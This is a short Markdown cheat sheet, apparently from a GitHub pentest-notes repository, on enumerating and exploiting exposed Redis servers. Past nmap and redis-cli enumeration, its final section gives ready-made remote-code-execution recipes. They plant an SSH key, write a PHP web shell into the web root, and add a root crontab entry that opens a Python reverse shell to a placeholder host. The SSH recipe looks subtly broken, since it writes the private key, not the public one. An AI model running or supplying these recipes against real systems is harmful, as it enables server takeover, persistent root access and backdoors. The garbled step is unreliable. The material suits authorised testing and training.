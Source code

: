 # Redis enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Connecting to a Redis database](#connecting-to-a-redis-database)
* [Enumerating a database](#enumerating-a-database)
* [Writing data to a file](#writing-data-to-a-file)

## Initial enumeration
```bash
nmap -vv -p 6379 -sT --script=+redis* <ip>
```

## Connecting to a Redis database
```bash
redis-cli -h <ip> -p 6379 -a <password> # versions prior of Redis 6 
redis-cli -h <ip> -p 6379 --user default --pass <password>
```

## Enumerating a database
- Get database info:
```bash
INFO all
```
- Select a database
```bash
SELECT <database_0-15>
```
- List keys:
```bash
KEYS <pattern>
```
- Get value for a key:
```bash
GET <key>
```

## Writing data to a file
- SSH RCE:
```bash
ssh-keygen -t rsa -C "kali@<local_ip>" # File path = ./id_rsa
cat ./id_rsa | redis-cli -h <ip> -p 6379 -a <password> -x set somekey
redis-cli -h <ip> -p 6379 -a <password>

CONFIG SET rdbcompression no
CONFIG SET DIR /home/<username>/.ssh
CONFIG SET DBFILENAME authorized_keys
SAVE
```
- PHP RCE:
```bash
redis-cli -h <ip> -p 6379 -a <password>

SET somekey "\n\n               <?php system($_GET['c']);?>               \n\n"
CONFIG SET rdbcompression no
CONFIG SET DIR /var/www/html/
CONFIG SET DBFILENAME shell.php
SAVE
```
- Crontab python RCE:
```bash
redis-cli -h <ip> -p 6379 -a <password>

SET somekey "\n\n* * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ip>\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"
CONFIG SET rdbcompression no
CONFIG SET DIR /var/spool/cron/crontabs/
CONFIG SET DBFILENAME root
SAVE
```
